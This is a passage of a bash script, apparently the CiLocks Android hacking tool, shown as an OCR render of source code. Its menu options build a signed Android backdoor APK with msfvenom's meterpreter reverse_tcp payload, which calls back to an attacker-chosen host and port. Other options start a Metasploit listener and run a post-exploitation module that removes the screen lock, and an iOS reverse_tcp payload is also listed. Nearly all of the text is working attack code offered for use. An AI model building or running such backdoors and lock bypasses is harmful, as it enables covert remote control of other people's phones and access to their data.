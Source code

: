      read -p "Enter Package Application Name: " pkg
     adb install $app
     adb shell am start $pkg/.unlock
  else
    adb install $app
  fi

elif [[ $select == 2 ]]; then
  path="backdoor"
  loli="loli.apk"
  read -p "Enter LHOST: " host
  read -p "Enter LPORT: " port
  read -p "Application Name: " app
  paths=$path/$loli
  echo -e "${lb}Wait Creating Backdoor...${n}"
  msfvenom -p android/meterpreter/reverse_tcp lhost=$host lport=$port R> $paths
  echo "Wait Installing Keystore..."
  sleep 5
  keytool -genkey -V -keystore $path/key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
  jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore $path/key.keystore $paths hacked
  jarsigner -verify -verbose -certs $paths
  zipalign -v 4 $paths $path'/'$app'.apk'
  milf=$path/$app'.apk'
  rm $paths
  rm $path/key.keystore
  echo "Your Backdoor Created In" $milf
elif [[ $select == 3 ]]; then
  clear
  mmeta
  payload='android/meterpreter/reverse_tcp'
  payload2='osx/armle/execute/reverse_tcp'
  echo -e "${lh}
  Payload {Android}${n} =>${m} $payload ${n}${lh}
  Payload (iOS) ${n}=>${m} $payload2 ${n}${lh}
  Listener
  1.Multi Handler {Default}
  2.Remove Lock
  3.Remove Lock {Root}
  4.Safari Jit {iOS < 7.1.2}
  ${n}"
  read -p "senpai@tegalsec:~# " select
  if [[ $select == 1 ]]; then
    read -p "LHOST: " host
    read -p "LPORT: " port
    msfconsole=msfconsole
    exploit='use exploit/multi/handler'
    xterm -T " CiLocks Exploit " -geometry 100x35 -e "$msfconsole -x '$exploit; set PAYLOAD $payload ; set lhost $host ; set lport $port; exploit; exit -y'"

  elif [[ $select == 2 ]]; then
    read -p "LHOST: " host
    read -p "LPORT: " port
    msfconsole=msfconsole
    exploit='use post/android/manage/remove_lock'
    xterm -T " CiLocks Exploit " -geometry 100x35 -e "$msfconsole -x '$exploit; set PAYLOAD $payload ; set lhost $host ; set lport $port; exploit; exit -y'"
